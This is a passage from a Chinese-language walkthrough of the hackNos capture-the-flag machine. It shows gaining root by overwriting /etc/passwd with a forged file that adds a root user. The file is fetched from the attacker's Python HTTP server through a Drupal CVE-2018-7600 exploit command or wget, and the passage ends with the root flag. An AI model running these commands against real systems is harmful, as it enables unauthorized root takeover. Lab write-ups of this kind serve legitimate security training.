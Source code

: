 复制到本地生成文件passwd

在kali中生成密码

![image-20230628232349133](image-20230628232349133.png)

将moon加入到伪造的passwd，并赋予root权限

![image-20230628232408828](image-20230628232408828.png)

将passwd放到开启了python  httpserver的文件夹中

然后使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c "wget http://192.168.5.129:8000/passwd -O /etc/passwd"  
```

或者直接在已有的shell中进行

```
wget http://192.168.5.129:8000/passwd -O /etc/passwd
```

然后在已有的shell中进行切换用户

![image-20230628232454442](image-20230628232454442.png)



```

root@hackNos:/var/www# cd ~
cd ~
root@hackNos:~# ls
ls
root.txt
root@hackNos:~# cat root.txt
cat root.txt
    _  _                              _   
  _| || |_                           | |  
 |_  __  _|______  _ __  ___    ___  | |_ 
  _| || |_|______|| '__|/ _ \  / _ \ | __|
 |_  __  _|       | |  | (_) || (_) || |_ 
   |_||_|         |_|   \___/  \___/  \__|
                                          
                                          

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Linkedin : https://www.linkedin.com/in/rahulgehlaut/

Blog : www.hackNos.com

```





## 注意事项

使用菜刀等webshell不能切换，因为su命令必须在终端中执行

su: must be run from a terminal

![image-20230628232523339](image-20230628232523339.png)


